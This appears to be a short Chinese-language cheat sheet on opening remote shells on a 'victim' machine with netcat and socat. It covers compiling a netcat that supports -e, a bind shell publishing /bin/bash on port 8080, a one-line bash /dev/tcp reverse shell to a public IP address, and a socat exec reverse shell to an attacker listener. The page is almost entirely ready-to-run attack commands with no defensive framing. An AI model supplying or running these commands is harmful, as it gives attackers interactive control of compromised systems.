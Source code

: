 
# nc反弹

#### 安装原生版本的nc

```
wget https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gz 
tar xf netcat-0.7.1.tar.gz 
cd netcat-0.7.1
# 执行编译需要gcc环境
./configure --prefix=/usr/local/ncat
make -j 2 && make install
ln -s /usr/local/ncat/bin/nc /usr/bin/nc
```

### 场景一：被攻击机和攻击机在同一个网络中时

- 被攻击机开启监听，并将bash发布出去

`nc -lvvp 8080 -t -e /bin/bash`

- 攻击机上直接连接目标主机的8080端口

`nc 192.168.31.41 8080`


### 场景二：被攻击机和攻击机在不同网络中时，比如被攻击机身处内网没有公网IP

- 攻击机上开启8080监听, 等待shell反弹

`nc -lvvp 8080`

- 被攻击机上使用一句话反弹shell

`bash -i >& /dev/tcp/211.149.240.203/8080 0>&1`

- 此时攻击机上已经接受到了shell，攻击机上执行ip add命令验证ip


# socat 反弹shell
    socket cat，基于socket，可以看做是ncat的加强版

#### socat命令下载链接，下载后直接放置/usr/local/bin目录即可使用
https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat 

### 肉鸡没有公网IP的情况 反弹shell

- 1、攻击机上开启监听

` socat TCP-LISTEN:5555 -`

- 2、被攻击机机上运行socat反弹shell(表示将shell反弹到192.168.1.101的12345端口)

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.101:5555`

- 3、攻击机上已经获取到shell，可以直接iP add等命令查看




